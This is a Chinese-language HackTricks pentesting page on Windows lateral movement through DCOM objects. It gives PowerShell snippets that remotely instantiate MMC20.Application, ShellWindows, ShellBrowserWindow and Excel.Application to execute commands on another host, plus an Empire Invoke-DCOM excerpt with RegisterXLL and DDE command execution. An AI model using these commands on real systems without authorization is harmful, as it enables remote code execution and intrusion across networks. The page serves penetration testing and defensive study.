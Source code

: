 # DCOM Exec

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 你在一个**网络安全公司**工作吗？你想在HackTricks中看到你的**公司广告**吗？或者你想获得**PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[NFT收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和**[**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享你的黑客技巧。**

</details>

## MMC20.Application

**DCOM**（分布式组件对象模型）对象由于能够通过网络与对象进行交互而变得**有趣**。微软在DCOM [这里](https://msdn.microsoft.com/en-us/library/cc226801.aspx) 和 COM [这里](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx) 有一些很好的文档。您可以使用PowerShell找到一个可靠的DCOM应用程序列表，运行`Get-CimInstance Win32_DCOMApplication`。

[MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx) COM对象允许您脚本化MMC插件操作的组件。在枚举此COM对象中的不同方法和属性时，我注意到在Document.ActiveView下有一个名为`ExecuteShellCommand`的方法。

![](<../../.gitbook/assets/image (4) (2) (1) (1).png>)

您可以在[这里](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx)阅读有关该方法的更多信息。到目前为止，我们有一个可以通过网络访问并执行命令的DCOM应用程序。最后一步是利用这个DCOM应用程序和ExecuteShellCommand方法在远程主机上获得代码执行。

幸运的是，作为管理员，您可以使用PowerShell远程与DCOM进行交互，只需使用“`[activator]::CreateInstance([type]::GetTypeFromProgID`”。您只需要提供一个DCOM ProgID和一个IP地址。然后，它将远程提供给您该COM对象的一个实例：

![](<../../.gitbook/assets/image (665).png>)

然后，可以调用`ExecuteShellCommand`方法在远程主机上启动进程：

![](<../../.gitbook/assets/image (1) (4) (1).png>)

## ShellWindows和ShellBrowserWindow

**MMC20.Application**对象缺少显式的“[LaunchPermissions](https://technet.microsoft.com/en-us/library/bb633148.aspx)”，导致默认权限集允许管理员访问：

![](<../../.gitbook/assets/image (4) (1) (2).png>)

您可以在[这里](https://twitter.com/tiraniddo/status/817532039771525120)阅读更多关于该线程的信息。\
使用[@tiraniddo](https://twitter.com/tiraniddo)的[OleView .NET](https://github.com/tyranid/oleviewdotnet)可以查看没有显式LaunchPermission设置的其他对象，它具有出色的Python过滤器（以及其他功能）。在这种情况下，我们可以将过滤器缩小到所有没有显式Launch Permission的对象。这样做时，我注意到两个对象：`ShellBrowserWindow`和`ShellWindows`：

![](<../../.gitbook/assets/image (3) (1) (1) (2).png>)

识别潜在目标对象的另一种方法是查找`HKCR:\AppID\{guid}`中缺少`LaunchPermission`值的键。具有设置了Launch Permissions的对象将如下所示，其中数据表示对象的二进制格式的ACL：

![](https://enigma0x3.files.wordpress.com/2017/01/launch\_permissions\_registry.png?w=690\&h=169)

没有显式LaunchPermission设置的对象将缺少该特定的注册表项。

### ShellWindows

首先探索的对象是[ShellWindows](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773974\(v=vs.85\).aspx)。由于此对象没有与之关联的[ProgID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms688254\(v=vs.85\).aspx)，我们可以使用[Type.GetTypeFromCLSID](https://msdn.microsoft.com/en-us/library/system.type.gettypefromclsid\(v=vs.110\).aspx) .NET方法配对[Activator.CreateInstance](https://msdn.microsoft.com/en-us/library/system.activator.createinstance\(v=vs.110\).aspx)方法，通过其AppID在远程主机上实例化对象。为此，我们需要获取ShellWindows对象的[CLSID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms691424\(v=vs.85\).aspx)，也可以使用OleView .NET完成：

![shellwindow\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellwindow\_classid.png?w=434\&h=424)

如下所示，“Launch Permission”字段为空，表示没有设置显式权限。

![screen-shot-2017-01-23-at-4-12-24-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-12-24-pm.png?w=455\&h=401)

现在，我们有了CLSID，可以在远程目标上实例化对象：
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```
![](https://enigma0x3.files.wordpress.com/2017/01/remote\_instantiation\_shellwindows.png?w=690\&h=354)

在远程主机上实例化对象后，我们可以与其进行交互并调用任何方法。返回的对象句柄显示了几个方法和属性，但我们无法与其交互。为了实现与远程主机的实际交互，我们需要访问[WindowsShell.Item](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773970\(v=vs.85\).aspx)方法，该方法将返回表示Windows shell窗口的对象：
```
$item = $obj.Item()
```
![](https://enigma0x3.files.wordpress.com/2017/01/item\_instantiation.png?w=416\&h=465)

掌握了Shell窗口的全部操作，我们现在可以访问所有预期的公开方法/属性。在浏览这些方法后，**`Document.Application.ShellExecute`** 引起了我的注意。请确保按照该方法的参数要求进行操作，这些要求在[这里](https://msdn.microsoft.com/en-us/library/windows/desktop/gg537745\(v=vs.85\).aspx)有详细说明。
```powershell
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
![](https://enigma0x3.files.wordpress.com/2017/01/shellwindows\_command\_execution.png?w=690\&h=426)

如上所示，我们的命令已成功在远程主机上执行。

### ShellBrowserWindow

这个特定的对象在Windows 7上不存在，使得它在横向移动方面的使用比“ShellWindows”对象有些受限，我在Win7-Win10上对其进行了测试并取得了成功。

根据我对该对象的枚举，它似乎有效地提供了与前一个对象相同的资源管理器窗口接口。要实例化这个对象，我们需要获取它的CLSID。与上面类似，我们可以使用OleView .NET：

![shellbrowser\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellbrowser\_classid.png?w=428\&h=414)

再次注意空白的启动权限字段：

![screen-shot-2017-01-23-at-4-13-52-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-13-52-pm.png?w=399\&h=340)

有了CLSID，我们可以重复上一个对象上的步骤来实例化对象并调用相同的方法：
```powershell
$com = [Type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "<IP>")
$obj = [System.Activator]::CreateInstance($com)

$obj.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\system32", $null, 0)
```
![](https://enigma0x3.files.wordpress.com/2017/01/shellbrowserwindow_command_execution.png?w=690\&h=441)

正如你所看到的，命令在远程目标上成功执行。

由于该对象直接与Windows shell进行交互，我们不需要调用“ShellWindows.Item”方法，就像之前的对象一样。

虽然这两个DCOM对象可以用于在远程主机上运行shell命令，但还有许多其他有趣的方法可以用于枚举或篡改远程目标。其中一些方法包括：

* `Document.Application.ServiceStart()`
* `Document.Application.ServiceStop()`
* `Document.Application.IsServiceRunning()`
* `Document.Application.ShutDownWindows()`
* `Document.Application.GetSystemInformation()`

## ExcelDDE和RegisterXLL

以类似的方式，可以滥用DCOM Excel对象进行横向移动，获取更多信息请阅读[https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)
```powershell
# Chunk of code from https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
## You can see here how to abuse excel for RCE
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
## 工具

Powershell脚本[**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1)可以轻松调用所有被注释的方法来在其他机器上执行代码。

## 参考资料

* 第一种方法来自[https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)，更多信息请点击链接
* 第二部分来自[https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)，更多信息请点击链接

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* 你在一家**网络安全公司**工作吗？想要在HackTricks中**宣传你的公司**吗？或者你想要**获取PEASS的最新版本或下载PDF格式的HackTricks**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入**[**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或者**关注**我在**Twitter**上的[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **和**[**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享你的黑客技巧。**

</details>
